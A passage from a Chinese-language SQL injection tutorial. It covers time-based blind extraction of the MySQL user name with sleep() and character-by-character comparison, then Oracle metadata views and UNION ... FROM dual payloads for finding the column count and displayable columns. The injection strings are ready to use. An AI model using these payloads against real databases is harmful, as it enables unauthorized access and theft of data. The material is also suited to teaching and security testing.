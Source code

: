 然后通过 sleep() 函数还可以读出数据，但需要其他函数的配合，步骤如下：
**① 查询当前用户，并取得字符串长度**
执行 SQL 语句：
`AND if(length(user()) = 0, sleep(3), 1)`
如果出现 3 秒延时，就可以判断出 user 字符串长度，注入时通常会采用折半算法减少判断。

② 截取字符串第一个字符，并转换为 ASCII 码
`AND if(hex(mid(user(), 1, 1)) = 1, sleep(3), 1)`
`AND if(hex(mid(user(), 1, 1)) = 2, sleep(3), 1)`
……
不断更换 ASCII 码直到出现延时 3 秒就可以猜测出第一个字符。

③ 递归截取字符串每一个字符，分别于 ASCII 码比较
`AND if(hex(mid(user(), L, 1)) = N, sleep(3), 1)`
注：L 的位置代表字符串的第几个字符，N 的位置代表 ASCII 码。

不仅在 MySQL 中存在延时函数，在 SQL Server、Oracle 等数据库中也都存在类似功能的函数，如 SQL Server 的 waitfor delay、Oracle 中的 DBMS_LOCK.SLEEP 等函数。

---

### Oracle

##### 1. 获取元数据

Oracle 也支持查询元数据，下面是 Oracle 注入常用的元数据视图：
① user_tablespaces 视图，查看表空间
`SELECT tablespace_name FROM user_tablespaces`

② user_tables 视图，查看当前用户的所有表
`SELECT table_name FROM user_tables WHERE rownum = 1`

③ user_tab_columns 视图，查看当前用户的所有列，如查询 user 表的所有列：
`SELECT column_name FROM user_tab_columns WHERE table_name = 'users'`

④ all_users 视图，查看 ORacle 数据库的所有用户
`SELECT username FROM all_users`

⑤ user_objects 视图，查看当前用户的所有对象 (表名称、约束、索引)
`SELECT object_name FROM user_objects`

##### 2. UNION 查询

Oracle 与 MySQL 一样不支持多语句执行，不像 SQL Server 那样可以用分号隔开从而注入多条 SQL 语句。

**① 获取列的总数**
获取列总数方法与前面两种数据库类似，依然可以使用 ORDER BY 子句来完成。

另一种方法是利用 UNION 关键字来确定，但是 **Oracle 规定，每次查询时后面必须跟表的名称，否则查询将不成立**。

在 Oracle 中可以使用：
`UNION SELECT null, null, null …… FROM dual`
这里的 dual 是 Oracle 中的虚拟表，在不知道数据库中存在哪些表的情况下，可以使用此表作为查询表。

然后获取非数字类型列，即**可以显示出信息**的列：
`UNION SELECT 'null', null, null, …… FROM dual`
`UNION SELECT null, 'null', null, …… FROM dual`
